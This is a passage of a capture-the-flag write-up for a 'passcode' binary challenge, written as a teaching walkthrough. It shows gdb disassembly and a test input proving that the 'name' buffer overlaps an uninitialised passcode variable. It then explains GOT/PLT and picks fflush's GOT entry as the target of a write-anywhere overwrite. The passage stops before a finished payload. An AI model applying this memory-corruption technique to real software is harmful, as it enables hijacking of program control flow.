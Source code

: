 ```
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	mov    DWORD PTR [esp],0x80487a5
   0x080485de <+122>:	call   0x8048450 <puts@plt>
   0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave
   0x080485f0 <+140>:	ret
   0x080485f1 <+141>:	mov    DWORD PTR [esp],0x80487bd
   0x080485f8 <+148>:	call   0x8048450 <puts@plt>
   0x080485fd <+153>:	mov    DWORD PTR [esp],0x0
   0x08048604 <+160>:	call   0x8048480 <exit@plt>
End of assembler dump.
(gdb) break *0x080485c5
Breakpoint 1 at 0x80485c5
(gdb) r <<< $(python -c "print 'a'*100")
Starting program: /home/passcode/passcode <<< $(python -c "print 'a'*100")
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
enter passcode1 : enter passcode2 : checking...

Breakpoint 1, 0x080485c5 in login ()

```

Now let's see the value that is being compared at ebx-0x10

```
(gdb) x/x $ebp-0x10
0xffc08278:	0x61616161
```

We control it ? yes ! The stack being reused made us control passcode1 through name[100].

So to recap:

- we can control passcode1
- we can use scanf to write anywhere using passcode1

But what are we gonna write to get flag ?

We can use a technique in which we overwrite the Global Offset Table entry of a function to point at another address.

What is the GOT though (and PLT)?

The Procedure Linkage Table is a set of intructions that point to an entry at the GOT.
The GOT is basically a table containing addresses of functions to point at.
The GOT/PLT exist because of dynamic linking which basically links functions to programs at runtime.

fflush seems like a nice target. Let's look at fflush@plt

```
(gdb) x/4i 0x8048430
   0x8048430 <fflush@plt>:	jmp    DWORD PTR ds:0x804a004
   0x8048436 <fflush@plt+6>:	push   0x8
   0x804843b <fflush@plt+11>:	jmp    0x8048410
   0x8048440 <__stack_chk_fail@plt>:	jmp    DWORD PTR ds:0x804a008
```
